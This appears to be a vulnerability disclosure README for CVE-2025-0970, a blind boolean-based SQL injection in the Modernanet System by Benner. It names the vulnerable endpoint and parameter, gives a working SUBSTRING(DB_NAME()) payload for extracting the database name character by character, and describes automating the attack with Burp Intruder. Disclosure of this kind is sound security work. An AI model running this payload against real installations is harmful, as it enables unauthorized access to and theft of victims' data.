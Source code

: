 # CVE-2025-0970
The Modernanet System by Benner is vulnerable to Blind Boolean Based SQL Injection.

**Affected Version: < 1.1.1**

**OBS: Tool like SQLmap doesn't work in this case**
**

## POC

This vulnerability resides in the /Home/JS_CarregaCombo?formName=DADOS_PESSOAIS_PLANO&additionalCondition=&insideParameters=&elementToReturn=DADOS_PESSOAIS_PLANO&ordenarPelaDescricao=true&direcaoOrdenacao=asc&_=1739290047295 page in additionalCondition parameter.

Its possible to manipulate the parameter to insert any SQL query in victim database.

Payload example: `1=1) AND (CASE WHEN (SUBSTRING(DB_NAME(),X,1)='Y') THEN 1 ELSE 0 END=1)--`.

If you want to retrieve the database name, **just for the POC**, its just needed to change the argument X to the database name index and Y to the database name character.

## Request example:
![alt text](request.png)!


---


## After intercepting the request, you can use the Intruder option in BurpSuite

### Intruder Example
![alt text](intruder.png)


Observe, we have a longer response length when the letter is 'q', i.e. the first letter of the database name is 'q'.

You can repeat this, to the other letters


## Full url
https://IP/Home/JS_CarregaCombo?formName=DADOS_PESSOAIS_PLANO&additionalCondition=&insideParameters=&elementToReturn=DADOS_PESSOAIS_PLANO&ordenarPelaDescricao=true&direcaoOrdenacao=asc&_=1739290047295

---

## Reference

https://modernasistemas.com.br/
